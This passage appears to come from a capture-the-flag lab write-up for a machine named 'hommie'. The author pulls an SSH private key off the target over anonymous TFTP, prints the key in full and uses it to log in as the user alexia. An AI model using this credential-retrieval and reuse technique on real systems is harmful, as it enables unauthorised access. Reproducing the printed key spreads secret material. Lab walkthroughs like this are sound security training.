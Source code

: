 ## Shell as alexia

Great, let's double confirm it before we SSH as alexia.

```bash
┌──(root💀kali)-[/opt/hackmyv/hommie]
└─# tftp 192.168.56.24                                                                                                                                              
tftp> get id_rsa
Received 1850 bytes in 0.0 seconds
tftp> quit
                                                                                                                                                                          
┌──(root💀kali)-[/opt/hackmyv/hommie]
└─# cat id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEApwUR2Pvdhsu1RGG0UIWmj2yDNvs+4VLPG0WWisip6oZrjMjJ40h7
V0zdgZSRFhMxx0/E6ilh2MiMbpAuogCqC3MEodzIzHYAJyK4z/lIqUNdHJbgLDyaY26G0y
Rn1XI+RqLi5NUHBPyiWEuQUEZCMOqi5lS1kaiNHmVqx+rlEs6ZUq7Z6lzYs7da3XcFGuOT
gCnBh1Wb4m4e14yF+Syn4wQVh1u/53XGmeB/ClcdAbSKoJswjI1JqCCkxudwRMUYjq309j
QMxa7bbxaJbkb3hLmMuFU7RGEPu7spLvzRwGAzCuU3f60qJVTp65pzFf3x51j3YAMI+ZBq
kyNE1y12swAAA8i6ZpNpumaTaQAAAAdzc2gtcnNhAAABAQCnBRHY+92Gy7VEYbRQhaaPbI
M2+z7hUs8bRZaKyKnqhmuMyMnjSHtXTN2BlJEWEzHHT8TqKWHYyIxukC6iAKoLcwSh3MjM
dgAnIrjP+UipQ10cluAsPJpjbobTJGfVcj5GouLk1QcE/KJYS5BQRkIw6qLmVLWRqI0eZW
rH6uUSzplSrtnqXNizt1rddwUa45OAKcGHVZvibh7XjIX5LKfjBBWHW7/ndcaZ4H8KVx0B
tIqgmzCMjUmoIKTG53BExRiOrfT2NAzFrttvFoluRveEuYy4VTtEYQ+7uyku/NHAYDMK5T
d/rSolVOnrmnMV/fHnWPdgAwj5kGqTI0TXLXazAAAAAwEAAQAAAQBhD7sthEFbAqtXEAi/
+suu8frXSu9h9sPRL4GrKa5FUtTRviZFZWv4cf0QPwyJ7aGyGJNxGZd5aiLiZfwTvZsUiE
Ua47n1yGWSWMVaZ55ob3N/F9czHg0C18qWjcOh8YBrgGGnZn1r0n1uHovBevMghlsgy/2w
pmlMTtfdUo7JfEKbZmsz3auih2/64rmVp3r0YyGrvOpWuV7spnzPNAFUCjPTwgE2RpBVtk
WeiQtF8IedoMqitUsJU9ephyYqvjRemEugkqkALBJt91yBBO6ilulD8Xv1RBsVHUttE/Jz
bu4XlJXVeD10ooFofrsZd/9Ydz4fx49GwtjYnqsda0rBAAAAgGbx1tdwaTPYdEfuK1kBhu
3ln3QHVx3ZkZ7tNQFxxEjYjIPUQcFFoNBQpIUNOhLCphB8agrhcke5+aq5z2nMdXUJ3DO6
0boB4mWSMml6aGpW4AfcDFTybT6V8pwZcThS9FL3K2JmlZbgPlhkX5fyOmh14/i5ti7r9z
HlBkwMfJJPAAAAgQDPt0ouxdkG1kDNhGbGuHSMAsPibivXEB7/wK7XHTwtQZ7cCQTVqbbs
y6FqG0oSaSz4m2DfWSRZc30351lU4ZEoHJmlL8Ul6yvCjMOnzUzkhrIen131h/MStsQYtY
OZgwwdcG2+N7MReMpbDA9FSHLtHoMLUcxShLSX3ccIoWxqAwAAAIEAzdgK1iwvZkOOtM08
QPaLXRINjIKwVdmOk3Q7vFhFRoman0JeyUbEd0qlcXjFzo02MBlBadh+XlsDUqZSWo7gpp
ivFRbnEu2sy02CHilIJ6vXCQnuaflapCNG8MlG5CtpqfyVoYQ3N3d0PfOWLaB13fGeV/wN
0x2HyroKtB+OeZEAAAANYWxleGlhQGhvbW1pZQECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
                                             
┌──(root💀kali)-[/opt/hackmyv/hommie]
└─# chmod 600 id_rsa 
                                                                                                                                                                                                                                                                                                                                                    
┌──(root💀kali)-[/opt/hackmyv/hommie]
└─# ssh alexia@192.168.56.24 -i id_rsa                                                                                                                             
Linux hommie 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 30 11:06:15 2020
alexia@hommie:~$ whoami;id;hostname
alexia
uid=1000(alexia) gid=1000(alexia) groups=1000(alexia),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
hommie

```